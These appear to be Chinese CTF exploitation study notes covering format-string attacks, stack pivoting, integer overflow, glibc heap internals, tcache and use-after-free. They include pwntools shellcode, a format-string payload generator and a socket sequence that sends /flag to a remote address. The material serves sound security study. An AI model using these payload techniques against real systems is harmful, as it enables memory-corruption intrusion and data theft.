- 当`RELRO`保护为`NO RELRO`的时候，`init.array、fini.array、got.plt`均可读可写；为`PARTIAL RELRO`的时候，`ini.array、fini.array`可读不可写，`got.plt`可读可写；为`FULL RELRO`时，`init.array、fini.array、got.plt`均可读不可写。
- 程序在加载的时候，会依次调用`init.array`数组中的每一个函数指针，在结束的时候，依次调用`fini.array`中的每一个函数指针
- 当程序出现格式化字符串漏洞，但是需要写两次才能完成攻击，这个时候可以考虑改写`fini.array`中的函数指针为`main`函数地址，可以再执行一次`main`函数。一般来说，这个数组的长度为`1`，也就是说只能写一个地址。


在 exit 执行过程中，会调用两个函数，一个是`__rtld_lock_lock_recursive`，另一个是`__rtld_lock_unlock_recursive`


libc  gadget


```
glibc-2.34
pwndbg>disassemble &getkeyserv_handle
   …………
   …………
   0x00007fcec0d46020 <+528>:   mov    rdx,QWORD PTR [rdi+0x8]
   0x00007fcec0d46024 <+532>:   mov    QWORD PTR [rsp],rax
   0x00007fcec0d46028 <+536>:   call   QWORD PTR [rdx+0x20]
glibc-2.36
   0x7f4b945e07b1 <__GI___pthread_cleanup_pop+17>:      mov    rdx,QWORD PTR [rdi+0x8]
   0x7f4b945e07b5 <__GI___pthread_cleanup_pop+21>:      mov    rax,QWORD PTR [rdi]
   0x7f4b945e07b8 <__GI___pthread_cleanup_pop+24>:      mov    rdi,rdx
   0x7f4b945e07bb <__GI___pthread_cleanup_pop+27>:      jmp    rax
```


close

```
cat flag>&0
exec 1>&0

s = socket(2, 1, 6)
connect(s, &addr, 0x10)
open(/flag)
read(/flag)
write(socket)
```


```
free_hook1 = free_hook & 0xfffffffffffff000
```


多使用0


syscall会给rcx赋值的特性，将rip的值赋给rcx


```
payload += asm(shellcraft.open('/', 0))
payload += asm('''
    mov rdi, rax
    xor edx, edx
    mov dh, 0x100 >> 8
    sub rsp, 0x200
    mov rsi, rsp
    push 78
    pop rax
    syscall
''')
payload += asm(shellcraft.write(1, 'rsp', 0x100))
```


泄漏环境变量ROP


system("$0")


#### 栈对齐


#### 格式化字符串

```
scanf("%s",a);
printf(a);
```

正常输入没有任何问题，但如果输入字符串是"%x%x%x"，就会直接输出数据的地址。

这是因为printf函数并不知道参数个数，它的内部有个指针，用来索检格式化字符串。对于特定类型%，就去取相应参数的值，直到索检到格式化字符串结束，所以尽管没有参数，上面的代码也会将 后面的内存当做参数以16进制输出。这样就会造成内存泄露。

printf函数的格式化字符串常见的有 %d，%f，%c，%s，%x等等,但是有个不常见的格式化字符串 %n ，它的功能是将%n之前打印出来的字符个数，赋值给一个变量。

`%N$x'参数可以以16进制方式打印第N个参数的内容，通过修改N，我们可以遍历栈上的所有内容。

'%N$n'参数可以以16进制方式修改第N个参数的内容，通过修改N，我们可以修改栈上内容。

'%N$s'参数可以以打印第N个参数中的内容(字符串地址)，通过修改N，我们可以读取栈上地址中内容。


```
payload = fmtstr_payload(offset,{printf_got:system},write_size='byte')
```


```python
def fmt_payload(qword_of_rsp_fmt,list_data,wide='$hhn'):
    
    _len = len(list_data)
    arg_start = 5 + qword_of_rsp_fmt + 1
    
    bits = 8

    if wide == '$hhn':
        bits = 8
    if wide == '$hn':
        bits = 16
    if wide == '$n':
        bits = 32
    if wide == '$ln':
        bits = 64
    
    mask = 0x0
    for i in range(bits):
        mask = (mask<<1)|1
    
    parts = []      #(addr,val)
    #save to list
    for i in range(_len):
        size = list_data[i][2]
        value = list_data[i][1]
        addr = list_data[i][0]
        c = size//(bits//8)
        if c == 0:
        	c = 1
        for j in range(c):
            part_addr = addr + j * (bits//8)
            part_val = (value>>(int(j) * bits)) & mask
            parts.append((part_addr,part_val))
    for i in range(len(parts)):
        for j in range(i+1,len(parts)):
            if(parts[j][1]<parts[i][1]):
                tmp = parts[i]
                parts[i] = parts[j]
                parts[j] = tmp

    #generate fmt payload
    payload = b''
    fmt_string_len = 0
    generate_success = False

    while False == generate_success:
        inc_len = False
        payload = b''

        for i in range(len(parts)):
            if i==0:
                if parts[0][1] != 0:
                    payload += b'%%%dc'%(parts[0][1])
            else:
                if (parts[i][1]-parts[i-1][1]) != 0:
                    payload += b'%%%dc'%(parts[i][1] - parts[i-1][1])

            tmp = payload + b'%' + str(i + arg_start + fmt_string_len//8).encode() + wide.encode()
            
            if len(tmp) >= fmt_string_len:
                fmt_string_len += 8
                inc_len = True   
                break
            else:
                payload += b'%' + str(i + arg_start + fmt_string_len//8).encode() + wide.encode()
        if inc_len == False:
            generate_success = True
    payload = payload.ljust(fmt_string_len,b'\x00')
    #print(parts)

    for i in range(len(parts)):
         payload += p64(parts[i][0])
    return payload
payload = fmt_payload(2,[(got, one,6)],wide='$hhn') 
```


#### 整数溢出

```
char passwd_buf[11];
unsigned char passwd_len=strlen(passwd_buf);
if(passwd_len>=4&&passwd_len<=8)
	strcpy(passed_buf,passed);
else
	printf("bad\n");
```

strlen()返回类型size_t，却被存储到无符号字符串类型中，任意超过无符号字符串最大限值（256字节）的数据都会导致截断异常。当密码长度为261时，截断值为5，绕过if判断，导致栈溢出。

#### 栈迁移

栈迁移主要是为了解决栈溢出可以溢出空间大小不足的问题

主要用的就是利用 leave;ret; 

leave;     //mov esp,ebp; pop ebp;

ret ;      // pop eip

通过在栈内写入地址，`ret`返回的是栈顶数据，而栈顶地址是由esp寄存器的值决定的，也就是说如果控制了esp寄存器的数据，那么也就能够控制ret返回的栈顶数据。首先将栈中保存ebp数据的地址空间控制为我们想要栈顶地址，再利用两次leave操作，将esp寄存器中的值变成我们想让它成为的值。


### 堆

#### 堆的概述

在程序运行过程中，堆可以提供动态分配的内存，允许程序申请大小未知的内存。堆其实就是程序虚拟地址空间的一块连续的线性区域，它由低地址向高地址方向增长。我们一般称管理堆的那部分程序为堆管理器。

（1）堆在内存空间中不一定连续

（2）堆可由用户管理

堆管理器处于用户程序与内核中间，主要做以下工作

1. 响应用户的申请内存请求，向操作系统申请内存，然后将其返回给用户程序。同时，为了保持内存管理的高效性，内核一般都会预先分配很大的一块连续的内存，然后让堆管理器通过某种算法管理这块内存。只有当出现了堆空间不足的情况，堆管理器才会再次与操作系统进行交互。
2. 管理用户所释放的内存。一般来说，用户释放的内存并不是直接返还给操作系统的，而是由堆管理器进行管理。这些释放的内存可以来响应用户新申请的内存的请求。

目前 Linux 标准发行版中使用的堆分配器是 glibc 中的堆分配器：ptmalloc2。ptmalloc2 主要是通过 malloc/free 函数来分配和释放内存块。

需要注意的是，在内存分配与使用的过程中，Linux 有这样的一个基本内存管理思想，**只有当真正访问一个地址的时候，系统才会建立虚拟页面与物理页面的映射关系**。 所以虽然操作系统已经给程序分配了很大的一块内存，但是这块内存其实只是虚拟内存。只有当用户使用到相应的内存时，系统才会真正分配物理页面给用户使用。

系统内存分布图


#### 堆的操作

##### brk、mmap函数

主线程用brk 内存申请过大时就用mmap

子线程只能用mmap

linux平台上的 malloc 函数还是 free 函数，我们动态申请和释放内存时，都经常会使用，但是它们并不是真正与系统交互的函数。这些函数背后的系统调用主要是 (s)brk 函数以及 mmap函数。


1、brk是将数据段(.data)的最高地址指针_edata往高地址推

例如 ：malloc小于128k的内存，使用brk分配内存，将_edata往高地址推(只分配虚拟空间，不对应物理内存(因此没有初始化)，第一次读/写数据时，引起内核缺页中断，内核才分配对应的物理内存，然后虚拟地址空间建立映射关系)

对于堆的操作，操作系统提供了 brk 函数，glibc 库提供了 sbrk 函数，我们可以通过增加 brk 的大小来向操作系统申请内存。

初始时，堆的起始地址 start_brk)以及堆的当前末尾 brk 指向同一地址。根据是否开启 ASLR，两者的具体位置会有所不同

- 不开启 ASLR 保护时，start_brk 以及 brk 会指向 data/bss 段的结尾。
- 开启 ASLR 保护时，start_brk 以及 brk 也会指向同一位置，只是这个位置是在 data/bss 段结尾后的随机偏移处。

2、mmap是在进程的虚拟地址空间中（堆和栈中间，称为文件映射区域的地方）找一块空闲的虚拟内存。

 例如 ：malloc大于128k的内存，使用mmap分配内存，在堆和栈之间找一块空闲内存分配(对应独立内存，而且初始化为0)

  这两种方式分配的都是虚拟内存，没有分配物理内存。在第一次访问已分配的虚拟地址空间的时候，发生缺页中断，操作系统负责分配物理内存，然后建立虚拟内存和物理内存之间的映射关系。

##### 调用过程

在程序调用malloc之前程序进程中是没有heap segment的，并且在创建在创建线程前，也是没有线程堆栈的，在主线程中调用malloc之后，就会发现系统给程序分配了堆栈，且这个堆栈刚好在数据段之上。

在主线程调用free之后：从内存布局可以看出程序的堆空间并没有被释放掉，原来调用free函数释放已经分配了的空间并非直接“返还”给系统，而是由glibc 的malloc库函数加以管理。

#####  多线程

在原来的 dlmalloc 实现中，当两个线程同时要申请内存时，只有一个线程可以进入临界区申请内存，而另外一个线程则必须等待直到临界区中不再有线程。这是因为所有的线程共享一个堆。在 glibc 的 ptmalloc 实现中，比较好的一点就是支持了多线程的快速访问。在新的实现中，所有的线程共享多个堆。

无论是主线程还是新创建的线程，在第一次申请内存时，都会有独立的 arena

事实上，arena的个数是跟系统中处理器核心个数相关的，如下表所示：

```
For 32 bit systems:
     Number of arena = 2 * number of cores + 1.
For 64 bit systems:
     Number of arena = 8 * number of cores + 1.
```

##### 多Arena的管理

假设有如下情境：一台只含有一个处理器核心的PC机安装有32位操作系统，其上运行了一个多线程应用程序，共含有4个线程——主线程和三个用户线程。显然线程个数大于系统能维护的最大arena个数（2*核心数 + 1= 3），那么此时glibc malloc就需要确保这4个线程能够正确地共享这3个arena，那么它是如何实现的呢？

当主线程首次调用malloc的时候，glibc malloc会直接为它分配一个main arena，而不需要任何附加条件。

当用户线程1和用户线程2首次调用malloc的时候，glibc malloc会分别为每个用户线程创建一个新的thread arena。此时，各个线程与arena是一一对应的。但是，当用户线程3调用malloc的时候，就出现问题了。因为此时glibc malloc能维护的arena个数已经达到上限，无法再为线程3分配新的arena了，那么就需要重复使用已经分配好的3个arena中的一个(main arena, arena 1或者arena 2)。那么该选择哪个arena进行重复利用呢？

1)首先，glibc malloc循环遍历所有可用的arenas，在遍历的过程中，它会尝试lock该arena。如果成功lock(该arena当前对应的线程并未使用堆内存则表示可lock)，比如将main arena成功lock住，那么就将main arena返回给用户，即表示该arena被线程3共享使用。

2)而如果没能找到可用的arena，那么就将线程3的malloc操作阻塞，直到有可用的arena为止。

3)现在，如果线程3再次调用malloc的话，glibc malloc就会先尝试使用最近访问的arena(此时为main arena)。如果此时main arena可用的话，就直接使用，否则就将线程3阻塞，直到main arena再次可用为止。

这样线程3与主线程就共享main arena了。至于其他更复杂的情况，以此类推。

#### 堆管理介绍

在glibc malloc中针对堆管理，主要涉及到以下3种数据结构：

1. heap_info: 即Heap Header，因为一个**thread arena**（注意：不包含**main thread**）可以包含多个heaps，所以为了便于管理，就给每个heap分配一个heap header。那么在什么情况下一个thread arena会包含多个heaps呢?在当前heap不够用的时候，malloc会通过系统调用mmap申请新的堆空间，新的堆空间会被添加到当前thread arena中，便于管理。
2. malloc_state: 即Arena Header，每个thread只含有一个Arena Header。Arena Header包含bins的信息、top chunk以及最后一个remainder chunk等
3. malloc_chunk: 即Chunk Header，一个heap被分为多个chunk，至于每个chunk的大小，这是根据用户的请求决定的，也就是说用户调用malloc(size)传递的size参数“就是”chunk的大小

**NOTE:**

1.Main thread不含有多个heaps所以也就不含有heap_info结构体。当需要更多堆空间的时候，就通过扩展sbrk的heap segment来获取更多的空间，直到它碰到内存mapping区域为止。

2.不同于thread arena，main arena的arena header并不是sbrk heap segment的一部分，而是一个全局变量！因此它属于libc.so的data segment。

##### heap segment与arena关系

0x870 + 0x20

首先，通过内存分布图理清malloc_state与heap_info之间的组织关系。

下图是只有一个heap segment的main arena和thread arena的内存分布图：


下图是一个thread arena中含有多个heap segments的情况：



从上图可以看出，thread arena只含有一个malloc_state(即arena header)，却有两个heap_info(即heap header)。由于两个heap segments是通过mmap分配的内存，两者在内存布局上并不相邻而是分属于不同的内存区间，所以为了便于管理，libc malloc将第二个heap_info结构体的prev成员指向了第一个heap_info结构体的起始位置（即ar_ptr成员），而第一个heap_info结构体的ar_ptr成员指向了malloc_state，这样就构成了一个单链表，方便后续管理。

##### chuck

在程序的执行过程中，我们称由 malloc 申请的内存为 chunk 。这块内存在 ptmalloc 内部用 malloc_chunk 结构体来表示。当程序申请的 chunk 被 free 后，会被加入到相应的空闲管理列表中。

无论一个 chunk 的大小如何，处于分配状态还是释放状态，它们都使用一个统一的结构。虽然它们使用了同一个数据结构，但是根据是否被释放，它们的表现形式会有所不同。

在glibc malloc中将整个堆内存空间分成了连续的、大小不一的chunk，即对于堆内存管理而言chunk就是最小操作单位。Chunk总共分为4类：

1)allocated chunk;

2)free chunk;

3)top chunk;         **top chunk 的 prev_inuse 比特位始终为 1，否则其前面的 chunk 就会被合并到 top chunk 中。**

4)Last remainder chunk。

从本质上来说，所有类型的chunk都是内存中一块连续的区域，只是通过该区域中特定位置的某些标识符加以区分。为了简便，我们先将这4类chunk简化为2类：allocated chunk以及free chunk，前者表示已经分配给用户使用的chunk，后者表示未使用的chunk。

chuck的结构体源代码

```
/*
  This struct declaration is misleading (but accurate and necessary).
  It declares a "view" into memory allowing access to necessary
  fields at known offsets from a given base. See explanation below.
*/
struct malloc_chunk {

  INTERNAL_SIZE_T      prev_size;  /* Size of previous chunk (if free).  */
  INTERNAL_SIZE_T      size;       /* Size in bytes, including overhead. */

  struct malloc_chunk* fd;         /* double links -- used only if free. */
  struct malloc_chunk* bk;

  /* Only used for large blocks: pointer to next larger size.  */
  struct malloc_chunk* fd_nextsize; /* double links -- used only if free. */
  struct malloc_chunk* bk_nextsize;
};
```

当前glibc malloc allocated chunk格式


每个字段的具体的解释如下

PREV_INUSE(P): 表示前一个chunk是否为allocated。

IS_MMAPPED(M)：表示当前chunk是否是通过mmap系统调用产生的。

NON_MAIN_ARENA(N)：表示当前chunk是否是thread arena。

- pre chuck size, 如果该 chunk 的**物理相邻的前一地址 chunk（两个指针的地址差值为前一 chunk 大小）**是空闲的话，那该字段记录的是前一个 chunk 的大小 (包括 chunk 头)。否则，该字段可以用来存储物理相邻的前一个 chunk 的数据。**这里的前一 chunk 指的是较低地址的 chunk** 。

- chuck size ，该 chunk 的大小，大小必须是 2 * SIZE_SZ 的整数倍。如果申请的内存大小不是 2 * SIZE_SZ 的整数倍，会被转换满足大小的最小的 2 * SIZE_SZ 的倍数。32 位系统中，SIZE_SZ 是 4；64 位系统中，SIZE_SZ 是 8。 该字段的低三个比特位对 chunk 的大小没有影响，它们从高到低分别表示

  - NON_MAIN_ARENA，记录当前 chunk 是否不属于主线程，1 表示不属于，0 表示属于。
  - IS_MAPPED，记录当前 chunk 是否是由 mmap 分配的。
  - PREV_INUSE，记录前一个 chunk 块是否被分配。一般来说，堆中第一个被分配的内存块的 size 字段的 P 位都会被设置为 1，以便于防止访问前面的非法内存。当一个 chunk 的 size 的 P 位为 0 时，我们能通过 prev_size 字段来获取上一个 chunk 的大小以及地址。这也方便进行空闲 chunk 之间的合并。

- fd，bk

  。 chunk 处于分配状态时，从 fd 字段开始是用户的数据。chunk 空闲时，会被添加到对应的空闲管理链表中，其字段的含义如下

  - fd 指向下一个（非物理相邻）空闲的 chunk
  - bk 指向上一个（非物理相邻）空闲的 chunk
  - 通过 fd 和 bk 可以将空闲的 chunk 块加入到空闲的 chunk 块链表进行统一管理

一个已经分配的 chunk 的样子如下。**我们称前两个字段称为 chunk header，后面的部分称为 user data。每次 malloc 申请得到的内存指针，其实指向 user data 的起始处。**

当一个 chunk 处于使用状态时，它的下一个 chunk 的 prev_size 域无效，所以下一个 chunk 的该部分也可以被当前 chunk 使用。**这就是 chunk 中的空间复用。**

##### bin

用户释放掉的 chunk 不会马上归还给系统，ptmalloc 会统一管理 heap 和 mmap 映射区域中的free chunk。当用户再一次请求分配内存时，ptmalloc 分配器会试图在free chunk 中挑选一块合适的给用户。这样可以避免频繁的系统调用，降低内存分配的开销。

在具体的实现中，ptmalloc 采用分箱式方法对空闲的 chunk 进行管理。首先，它会根据空闲的 chunk 的大小以及使用状态将 chunk 初步分为 4 类：fast bins，small bins，large bins，unsorted bin。每类中仍然有更细的划分，相似大小的 chunk 会用双向链表链接起来。也就是说，在每类 bin 的内部仍然会有多个互不相关的链表来保存不同大小的 chunk，也就是说**bin是一种记录free chunk的链表数据结构**。

在glibc中用于记录bin的数据结构有两种，分别如下所示：

**fastbinsY**: 这是一个数组，用于记录所有的fast bins；

**bins**: 这也是一个数组，用于记录除fast bins之外的所有bins。事实上，一共有126个bins，分别是：

- bin 1 为unsorted bin;

- bin 2 到63为small bin;

- bin 64到126为large bin。


**fast bin**

既然有fast bin，那就肯定有fast chunk——chunk size为16到80字节的chunk就叫做fast chunk。为了便于后文描述，这里对chunk大小做如下约定：

1) 只要说到chunk size，那么就表示该malloc_chunk的实际整体大小；

   2 而说到chunk unused size，就表示该malloc_chunk中刨除诸如prev_size, size, fd和bk这类辅助成员之后的实际可用的大小。因此，对free chunk而言，其实际可用大小总是比实际整体大小少16字节。

在内存分配和释放过程中，fast bin是所有bin中操作速度最快的。下面详细介绍fast bin的一些特性：

 1.每个fast bin都是一个单链表(**只使用fd指针**)。为什么使用单链表呢？因为在fast bin中无论是添加还是移除fast chunk，都是对“**链表尾**”进行操作，而不会对某个中间的fast chunk进行操作。更具体点就是LIFO(后入先出)算法：添加操作(free内存)就是将新的fast chunk加入链表尾，删除操作(malloc内存)就是将链表尾部的fast chunk删除。需要注意的是，为了实现LIFO算法，fastbinsY数组中每个fastbin元素均指向了该链表的rear end（尾结点），而尾结点通过其fd指针指向前一个结点，依次类推，如图所示。

在main arena中Fast bins(即数组fastbinsY)的整体操作示意图如下图所示：


 2.chunk size：10个fast bin中所包含的fast chunk size是按照步进8字节排列的，即第一个fast bin中所有fast chunk size均为16字节，第二个fast bin中为24字节，依次类推。在进行malloc初始化的时候，最大的fast chunk size被设置为80字节(chunk unused size为64字节)，因此**默认情况下大小为16到80字节的chunk被分类到fast chunk**。详情如上图

3.不会对free chunk进行合并操作。鉴于设计fast bin的初衷就是进行快速的**小内存**分配和释放，因此系统将属于fast bin的chunk的P(未使用标志位)总是设置为1，这样即使当fast bin中有某个chunk同一个free chunk相邻的时候，系统也不会进行自动合并操作，而是保留两者。

4.malloc(fast chunk)操作：即用户通过malloc请求的大小属于fast chunk的大小范围(注意：用户请求size加上16字节就是实际内存chunk size)。在初始化的时候fast bin支持的最大内存大小以及所有fast bin链表都是空的，所以当最开始使用malloc申请内存的时候，即使申请的内存大小属于fast chunk的内存大小(即16到80字节)，它也不会交由fast bin来处理，而是向下传递交由small bin来处理，如果small bin也为空的话就交给unsorted bin处理

**unsorted bin**

当释放较小或较大的chunk的时候，如果系统没有将它们添加到对应的bins中(为什么，在什么情况下会发生这种事情呢？详情见后文)，系统就将这些chunk添加到unsorted bin中。为什么要这么做呢？这主要是为了让“glibc malloc机制”能够有第二次机会重新利用最近释放的chunk(第一次机会就是fast bin机制)。利用unsorted bin，可以加快内存的分配和释放操作，因为整个操作都不再需要花费额外的时间去查找合适的bin了。

Unsorted bin的特性如下：

1) unsorted bin的个数： 1个。unsorted bin是一个由free chunks组成的循环双链表。

2) Chunk size: 在unsorted bin中，对chunk的大小并没有限制，任何大小的chunk都可以归属到unsorted bin中。

   

**small bin**

小于512字节的chunk称之为small chunk，small bin就是用于管理small chunk的。就内存的分配和释放速度而言，small bin比larger bin快，但比fast bin慢。

Small bin的特性如下：

1) small bin个数：62个。每个small bin也是一个由对应free chunk组成的循环双链表。同时Small bin采用FIFO(先入先出)算法：内存释放操作就将新释放的chunk添加到链表的front end(前端)，分配操作就从链表的rear end(尾端)中获取chunk。

2) chunk size: 同一个small bin中所有chunk大小是一样的，且第一个small bin中chunk大小为16字节，后续每个small bin中chunk的大小依次增加8字节，即最后一个small bin的chunk为16 + 61*8 = 508字节。

3) 合并操作：相邻的free chunk需要进行合并操作，即合并成一个大的free chunk。具体操作见下文free(small chunk)介绍。

4) malloc(small chunk)操作：类似于fast bins，最初所有的small bin都是空的，因此在对这些small bin完成初始化之前，即使用户请求的内存大小属于small chunk也不会交由small bin进行处理，而是交由unsorted bin处理，如果unsorted bin也不能处理的话，glibc malloc就依次遍历后续的所有bins，找出第一个满足要求的bin，如果所有的bin都不满足的话，就转而使用top chunk，如果top chunk大小不够，那么就扩充top chunk，这样就一定能满足需求了。

   

**large bin**

大于512字节的chunk称之为large chunk，large bin就是用于管理这些large chunk的。

Large bin的特性如下：

1.large bin的数量：63个。Large bin类似于small bin，只是需要注意两点：一是同一个large bin中每个chunk的大小可以不一样，但必须处于某个给定的范围(特例2) ；二是large chunk可以添加、删除在large bin的任何一个位置。

在这63个large bins中，前32个large bin依次以64字节步长为间隔，即第一个large bin中chunk size为512~575字节，第二个large bin中chunk size为576 ~ 639字节。紧随其后的16个large bin依次以512字节步长为间隔；之后的8个bin以步长4096为间隔；再之后的4个bin以32768字节为间隔；之后的2个bin以262144字节为间隔；剩下的chunk就放在最后一个large bin中。

鉴于同一个large bin中每个chunk的大小不一定相同，因此为了加快内存分配和释放的速度，就将同一个large bin中的所有chunk按照chunk size进行**从大到小的排列**：最大的chunk放在链表的front end，最小的chunk放在rear end。

2.合并操作：类似于small bin。

3.malloc(large chunk)操作：

初始化完成之前的操作类似于small bin，这里主要讨论large bins初始化完成之后的操作。首先确定用户请求的大小属于哪一个large bin，然后判断该large bin中最大的chunk的size是否大于用户请求的size(只需要对比链表中front end的size即可)。如果大于，就从rear end开始遍历该large bin，找到第一个size相等或接近的chunk，分配给用户。如果该chunk大于用户请求的size的话，就将该chunk拆分为两个chunk：前者返回给用户，且size等同于用户请求的size；剩余的部分做为一个新的chunk**添加到unsorted bin**中。

如果该large bin中最大的chunk的size小于用户请求的size的话，那么就依次查看后续的large bin中是否有满足需求的chunk，不过需要注意的是鉴于bin的个数较多(不同bin中的chunk极有可能在不同的内存页中)，如果按照上一段中介绍的方法进行遍历的话(即遍历每个bin中的chunk)，就可能会发生多次内存页中断操作，进而严重影响检索速度，所以glibc malloc设计了Binmap结构体来帮助提高bin-by-bin检索的速度。Binmap记录了各个bin中是否为空，通过binmap可以避免检索一些空的bin。如果通过binmap找到了下一个非空的large bin的话，就按照上一段中的方法分配chunk，否则就使用top chunk来分配合适的内存。


##### 分配堆

int_malloc 是内存分配的核心函数，其核心思路有如下

1. 它根据用户申请的**内存块大小**以及**相应大小 chunk 通常使用的频度**（fastbin chunk, small chunk, large chunk），依次实现了不同的分配方法。
2. 它由小到大依次检查不同的 bin 中是否有相应的空闲块可以满足用户请求的内存。
3. 当所有的空闲 chunk 都无法满足时，它会考虑 top chunk。
4. 当 top chunk 也无法满足时，堆分配器才会进行内存块申请。

当 fast bin、small bin 中的 chunk 都不能满足用户请求 chunk 大小时，就会考虑是不是 large bin。但是，其实在 large bin 中并没有直接去扫描对应 bin 中的 chunk，而是先利用 malloc_consolidate（参见 malloc_state 相关函数） 函数处理 fast bin 中的 chunk，将有可能能够合并的 chunk 先进行合并后放到 unsorted bin 中，不能够合并的就直接放到 unsorted bin 中，然后再在下面的大循环中进行相应的处理。**为什么不直接从相应的 bin 中取出 large chunk 呢？这是 ptmalloc 的机制，它会在分配 large chunk 之前对堆中碎片 chunk 进行合并，以便减少堆中的碎片。**

大循环 - 遍历 unsorted bin

**如果程序执行到了这里，那么说明 与 chunk 大小正好一致的 bin (fast bin， small bin) 中没有 chunk 可以直接满足需求 ，但是 large chunk 则是在这个大循环中处理**。

在接下来的这个循环中，主要做了以下的操作

- 按照 FIFO 的方式逐个将 unsorted bin 中的 chunk 取出来
  - 如果是 small request，则考虑是不是恰好满足，是的话，直接返回。
  - 如果不是的话，放到对应的 bin 中。
- 尝试从 large bin 中分配用户所需的内存

该部分是一个大循环，这是为了尝试重新分配 small bin chunk，这是因为我们虽然会首先使用 large bin，top chunk 来尝试满足用户的请求，但是如果没有满足的话，由于我们在上面没有分配成功 small bin，我们并没有对 fast bin 中的 chunk 进行合并，所以这里会进行 fast bin chunk 的合并，进而使用一个大循环来尝试再次分配 small bin chunk。

##### tcache

tcache 引入了两个新的结构体，`tcache_entry` 和 `tcache_perthread_struct`。

这其实和 fastbin 很像，但又不一样。

`tcache_entry` 用于链接空闲的 chunk 结构体，其中的 `next` 指针指向下一个大小相同的 chunk。

需要注意的是这里的 next 指向 chunk 的 user data，而 fastbin 的 fd 指向 chunk 开头的地址。

而且，tcache_entry 会复用空闲 **chunk 的 user data 部分**。

**工作方式**

- 第一次 malloc 时，会先 malloc 一块内存用来存放 `tcache_perthread_struct` 。
- free 内存，且 size 小于 small bin size 时
- tcache 之前会放到 fastbin 或者 unsorted bin 中
- tcache 后：
  - 先放到对应的 tcache 中，直到 tcache 被填满（默认是 7 个）
  - tcache 被填满之后，再次 free 的内存和之前一样被放到 fastbin 或者 unsorted bin 中
  - tcache 中的 chunk 不会合并（不取消 inuse bit）
- malloc 内存，且 size 在 tcache 范围内
- 先从 tcache 取 chunk，直到 tcache 为空
- tcache 为空后，从 bin 中找
- tcache 为空时，如果 `fastbin/smallbin/unsorted bin` 中有 size 符合的 chunk，会先把 `fastbin/smallbin/unsorted bin` 中的 chunk 放到 tcache 中，直到填满。之后再从 tcache 中取；因此 chunk 在 bin 中和 tcache 中的顺序会反过来


tcache_perthread_struct的结构（glibc-2.30）

```
pwndbg> x/20gx 0x55555555b000
0x55555555b000: 0x0000000000000000      0x0000000000000291
0x55555555b010: 0x0001000100010002      0x0000000100010001    //0x10 ~ 0x80 存储tcache个数
0x55555555b020: 0x0000000000000000      0x0000000000000000
0x55555555b030: 0x0000000000000000      0x0000000000000000
0x55555555b040: 0x0000000000000000      0x0000000000000000
0x55555555b050: 0x0000000000000000      0x0000000000000000
0x55555555b060: 0x0000000000000000      0x0000000000000000
0x55555555b070: 0x0000000000000000      0x0000000000000000
0x55555555b080: 0x0000000000000000      0x0000000000000000
0x55555555b090: 0x000055555555b2c0      0x000055555555b2e0   //从0x90 开始存储tcache的链表
0x55555555b0a0: 0x000055555555b310      0x000055555555b350
0x55555555b0b0: 0x000055555555b3a0      0x000055555555b400
0x55555555b0c0: 0x000055555555b470      0x0000000000000000

tcachebins
0x20 [  2]: 0x55555555b2c0 —▸ 0x55555555b2a0 ◂— 0x0
0x30 [  1]: 0x55555555b2e0 ◂— 0x0
0x40 [  1]: 0x55555555b310 ◂— 0x0
0x50 [  1]: 0x55555555b350 ◂— 0x0
0x60 [  1]: 0x55555555b3a0 ◂— 0x0
0x70 [  1]: 0x55555555b400 ◂— 0x0
0x80 [  1]: 0x55555555b470 ◂— 0x0
```


malloc的时候，代码中把**tc_idx**与**TCACHE_MAX_BINS**的比对给替换了，从而用**mp_.tcache_bins**来代替。

```
pwndbg> p mp_
$1 = {
  trim_threshold = 131072,
  top_pad = 131072,
  mmap_threshold = 131072,
  arena_test = 8,
  arena_max = 0,
  n_mmaps = 0,
  n_mmaps_max = 65536,
  max_n_mmaps = 0,
  no_dyn_threshold = 0,
  mmapped_mem = 0,
  max_mmapped_mem = 0,
  sbrk_base = 0x555555563000 "",
  tcache_bins = 64,
  tcache_max_bytes = 1032,
  tcache_count = 7,
  tcache_unsorted_limit = 0
}
```


通常情况下fastbin中的chuck不会合并，但如果fastbin中的chuck一直不释放就会造成大量的内存碎片，影响使用。

fastbin会在以下情况下进行合并（合并是对所有fastbin中的chunk而言）。
1、free的堆块大小大于fastbin中的最大size。（注意这里并不是指当前fastbin中最大chunk的size，而是指fastbin中所定义的最大chunk的size，是一个固定值。）

2、在申请large chunk时。
3、当申请的chunk需要申请新的top chunk时。

```
#include<stdio.h>
#include<stdlib.h>
int main(){
  int *p1,*p2,*p3;
  p1=malloc(0x60);
  p2=malloc(0x20);
  p3=malloc(0x120);
  free(p1);
  free(p2);
  free(p3);
  return 0;
}
```


```
#include<stdio.h>
#include<stdlib.h>
int main(){
  int *p1,*p2,*p3;
  p1=malloc(0x60);
  p2=malloc(0x20);
  p3=malloc(0x10);
  free(p1);
  free(p2);
  p1=malloc(0x120);
  free(p1);
  return 0;
}
```


```
#include<stdio.h>
#include<stdlib.h>
int main(){
  int *p1,*p2,*p3;
  p1=malloc(0x60);
  p2=malloc(0x20);
  p3=malloc(0x10);
  free(p1);
  free(p2);
  p1=malloc(0x500);
  free(p1);
  return 0;
}
```


```
#include<stdio.h>
#include<stdlib.h>
int main(){
  int *p1,*p2,*p3,*p4;
  p1=malloc(0x30);
  p2=malloc(0x40);
  p3=malloc(0x20f00);
  p4=malloc(0x10);
  free(p1);
  free(p2);
  p1=malloc(0x70);
  free(p1);
  return 0;
}
```


#### UAF漏洞

Use After Free

我们可以直接从字面上翻译它的意思：使用被释放的内存块。其实当一个内存块被释放之后重新使用有如下几种情况：

内存块被释放后，其对应的指针被设置为NULL，再次使用时程序会崩溃
内存块被释放后，其对应的指针没有被设置为NULL，在它下一次被使用之前，没有代码对这块内存块进行修改，那么程序有可能可以正常运转
内存块被释放后，其对应的指针没有被设置为NULL，但是在下一次使用之前，有代码对这块内存进行了修改，那么当程序再次使用这块内存时，就很有可能出现问题。


Dangling pointer即指向被释放的内存的指针，通常是由于释放内存后，未将指针置为NULL。

**UAF原理**：对Dangling pointer所指向内存进行use，如指针解引用等。
**利用思路**：将Dangling pointer所指向的内存重新分配回来，且尽可能使该内存中的内容可控（如重新分配为字符串）

**举例**

```text
typedef struct
{
int id;
char *name;
int (*func)() //函数指针，可以理解为类里面的方法
};
```

假设有上述这样的一个结构体指针p。


在释放掉p之后，没有将p置NULL，所以p变成Dangling pointer，再通过重新分配，再次拿到p之前指向的这段地址空间。


之后，通过strcpy(p2,"addr")，或者其他方式，向这段地址空间写入新数据。


然后当我们通过其他函数，再次使用p指针，就会造成无法预料的后果，因为**此时p指针指向的内存包含的已经是完全不同的数据**

